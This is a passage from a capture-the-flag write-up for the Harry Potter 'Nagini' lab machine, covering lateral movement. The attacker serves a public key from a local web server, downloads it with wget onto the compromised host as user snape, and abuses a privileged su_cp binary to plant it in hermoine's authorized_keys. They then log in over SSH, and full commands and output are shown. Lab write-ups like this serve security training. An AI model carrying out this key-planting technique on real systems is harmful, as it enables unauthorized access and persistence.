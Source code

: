 Start a web server

```bash
python3 -m http.server 80
```

![Alt text](./HARRY_POTTER_NAGINI/img/http.PNG?raw=true "LOCAL WEB SERVER")

On the hacked machine, using the snape user, we use wget to download the file id_rsa.pub

```bash
snape@Nagini:~$ wget http://192.168.1.200/id_rsa.pub
--2021-06-13 19:41:36--  http://192.168.1.200/id_rsa.pub
Connecting to 192.168.1.200:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 566 [application/vnd.exstream-package]
Saving to: ‘id_rsa.pub’

id_rsa.pub                                100%[=====================================================================================>]     566  --.-KB/s    in 0s

2021-06-13 19:41:36 (37.6 MB/s) - ‘id_rsa.pub’ saved [566/566]
```

Now we use the su_cp to copy the id_rsa.pub in /home/hermoine/.ssh/authorized_keys

```bash
snape@Nagini:~$ /home/hermoine/bin/su_cp id_rsa.pub /home/hermoine/.ssh/authorized_keys

```

At this stage, we can close our snape connection and connect with the user hermoine using our private key

```bash
┌──(animale㉿kali)-[~/.ssh]
└─$ ssh -i ~/.ssh/id_rsa hermoine@quic.nagini.hogwarts
Linux Nagini 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 13 19:46:14 2021 from 192.168.1.200
hermoine@Nagini:~$
```

**WE'RE IN!!!!!!!!!!!!**

